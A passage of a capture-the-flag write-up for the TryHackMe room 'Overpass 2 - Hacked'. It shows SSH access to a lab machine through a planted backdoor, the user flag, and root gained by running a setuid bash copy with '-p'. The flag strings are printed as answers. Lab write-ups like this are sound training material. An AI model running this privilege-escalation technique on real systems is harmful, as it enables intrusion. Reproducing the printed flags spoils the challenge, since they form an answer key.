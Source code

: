 ```
kali@kali:~/CTFs/tryhackme/Overpass 2 - Hacked$ ssh -p 2222 james@10.10.183.197
The authenticity of host '[10.10.183.197]:2222 ([10.10.183.197]:2222)' can't be established.
RSA key fingerprint is SHA256:z0OyQNW5sa3rr6mR7yDMo1avzRRPcapaYwOxjttuZ58.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[10.10.183.197]:2222' (RSA) to the list of known hosts.
james@10.10.183.197's password:
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

james@overpass-production:/home/james/ssh-backdoor$ cd ~
james@overpass-production:/home/james$ ls
ssh-backdoor  user.txt  www
james@overpass-production:/home/james$ cat user.txt
thm{d119b4fa8c497ddb0525f7ad200e6567}
james@overpass-production:/home/james$
```

`thm{d119b4fa8c497ddb0525f7ad200e6567}`

3. What's the root flag?

```
james@overpass-production:/home/james$ ls -la
total 1136
drwxr-xr-x 7 james james    4096 Jul 22 03:40 .
drwxr-xr-x 7 root  root     4096 Jul 21 18:08 ..
lrwxrwxrwx 1 james james       9 Jul 21 18:14 .bash_history -> /dev/null
-rw-r--r-- 1 james james     220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 james james    3771 Apr  4  2018 .bashrc
drwx------ 2 james james    4096 Jul 21 00:36 .cache
drwx------ 3 james james    4096 Jul 21 00:36 .gnupg
drwxrwxr-x 3 james james    4096 Jul 22 03:35 .local
-rw------- 1 james james      51 Jul 21 17:45 .overpass
-rw-r--r-- 1 james james     807 Apr  4  2018 .profile
-rw-r--r-- 1 james james       0 Jul 21 00:37 .sudo_as_admin_successful
-rwsr-sr-x 1 root  root  1113504 Jul 22 02:57 .suid_bash
drwxrwxr-x 3 james james    4096 Jul 22 03:35 ssh-backdoor
-rw-rw-r-- 1 james james      38 Jul 22 03:40 user.txt
drwxrwxr-x 7 james james    4096 Jul 21 01:37 www
```

`-rwsr-sr-x 1 root root 1113504 Jul 22 02:57 .suid_bash`

```
james@overpass-production:/home/james$ ./.suid_bash -p
.suid_bash-4.4# cd /root
.suid_bash-4.4# ls
root.txt
.suid_bash-4.4# cat root.txt
thm{d53b2684f169360bb9606c333873144d}
.suid_bash-4.4#
```

`thm{d53b2684f169360bb9606c333873144d}`
